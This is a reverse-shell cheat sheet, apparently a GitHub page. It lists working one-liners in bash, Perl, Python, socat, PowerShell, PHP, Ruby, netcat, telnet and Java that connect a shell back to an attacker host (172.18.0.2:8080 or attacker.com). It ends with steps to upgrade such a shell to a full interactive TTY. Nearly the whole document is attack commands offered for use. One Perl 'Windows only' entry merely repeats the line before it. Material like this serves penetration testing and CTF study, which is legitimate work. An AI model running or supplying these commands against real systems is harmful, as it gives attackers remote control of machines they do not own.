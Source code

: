 # Bash
Some versions of bash can send you a reverse shell:
```bash
bash -i >& /dev/tcp/172.18.0.2/8080 0>&1
```

```bash
0<&196;exec 196<>/dev/tcp/172.18.0.2/8080; sh <&196 >&196 2>&196
```

```bash
export RHOST=attacker.com
export RPORT=12345
bash -c 'exec bash -i &>/dev/tcp/$RHOST/$RPORT <&1'
```

UDP version:

sh -i >& /dev/udp/172.18.0.2/8080 0>&1

PERL

Here’s a shorter, feature-free version of the perl-reverse-shell:
```perl
perl -e 'use Socket;$i="172.18.0.2";$p=8080;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

```

perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"172.18.0.2:8080");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'

Windows only:

perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"172.18.0.2:8080");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'

Python

This was tested under Linux / Python 2.7:

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("172.18.0.2",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

Socat

socat tcp-connect:172.18.0.2:8080 exec:bash -li,pty,stderr,setsid,sigint,sane

Powershell

powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("172.18.0.2",8080);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('172.18.0.2',8080);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"

PHP

This code assumes that the TCP connection uses file descriptor 3. This worked on my test system. If it doesn’t work, try 4, 5, 6…

php -r '$sock=fsockopen("172.18.0.2",8080);exec("/bin/sh -i <&3 >&3 2>&3");'

Ruby

ruby -rsocket -e'f=TCPSocket.open("172.18.0.2",8080).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

Netcat

Netcat is rarely present on production systems and even if it is there are several version of netcat, some of which don’t support the -e option. You can also check if nc.traditional is present on your target, as it always has the -e option. nc.openbsd can sometimes also have useful options to try.

nc -e /bin/sh 172.18.0.2 8080

if you have the wrong version of netcat installed, Jeff Price points out here that you might still be able to get your reverse shell back using either mkfifo:

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 172.18.0.2 8080 >/tmp/f

Or mknod:

rm -f x; mknod x p && nc 172.18.0.2 8080 0<x | /bin/bash 1>x

FREEBSD reverse shell

Those can become handy if you are trying to do a reverse shell on freebsd.

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|telnet 172.18.0.2 8080 > /tmp/f

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i |telnet 172.18.0.2 8080 > /tmp/f

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i |nc 172.18.0.2 8080 > /tmp/f

Java

r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/172.18.0.2/8080;cat <&5 | while read line; do \\$line 2>&5 >&5; done"] as String[])
p.waitFor()

Upgrading from tty reverse shell to full shell

This will allow you to make your reverse shell a "true" shell. That mean you will be able to use CTRL+C, CTRL+[any letter] etc, arrows to navigate through your shell history, and autocomplete with tabulation. Well, basicaly, something a lil' better then the casual shitty nc reverse shell that you close by error doing a CTRL+C to kill a program.

#From your netcat reverse shell
python -c 'import pty;pty.spawn("/bin/bash");' # spawn a tty shell
^Z  # this is CTRL+Z
nofix@AttackerMachine:~# stty raw -echo
nofix@AttackerMachine:~# fg   # this wont actualy print on your shell, it's ok
# If you had a proper tty shell, you should have a full stty shell now

Here are a few more things you can do to improve even more your reverse shell. Those could be particuliary useful if you are facing the error "Unknown terminal type" when launching programs such as nano.

reset
# if you are asked the type of term, say : vt100
export SHELL=bash
export TERM=xterm256-color
stty rows 38 columns 116 # of course you should change the rows and columns values according to your terminal size. You can get your terminal current rows and column using : stty -a

